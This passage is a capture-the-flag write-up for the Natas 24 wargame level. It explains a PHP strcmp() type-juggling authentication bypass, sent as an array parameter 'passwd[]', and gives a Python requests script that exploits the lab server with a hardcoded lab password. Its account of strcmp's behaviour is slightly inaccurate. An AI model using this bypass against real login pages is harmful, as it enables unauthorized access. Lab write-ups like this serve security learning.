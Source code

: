 password is checked by using `strcmp()` function. According to documentation, this function returns only values `> 0`, `< 0` and `= 0`. So our target is to have the return value equal to 0.
In PHP, `strcmp()` has a strange behaviour. Indeed, if the passed arguments are not string, it returns 0. So, let's try by passing the empty array `passwd[]`

[strcmp()](https://www.php.net/manual/en/function.strcmp.php) — Binary safe string comparison , Returns `-1` if `string1` is less than `string2`; `1` if `string1` is greater than `string2`, and `0` if they are equal.

```py
import requests
import re

username = "natas24"
passsowrd = "0xzF30T9Av8lgXhW7slhFCIsVKAPyl2r"

url = "http://%s.natas.labs.overthewire.org/"%username

sesssion = requests.Session()
response = sesssion.post(url,data={"passwd[]":"lol"},auth=(username,passsowrd) )
content = response.text

HashValue = re.findall(" natas25 Password: (.*)</pre>",content)[0]

print("[+] Gotcha ",HashValue)
```

---

### Natas 25

<img src="img/Pasted image 20240506190225.png" alt="Example Image" width="1080"/>
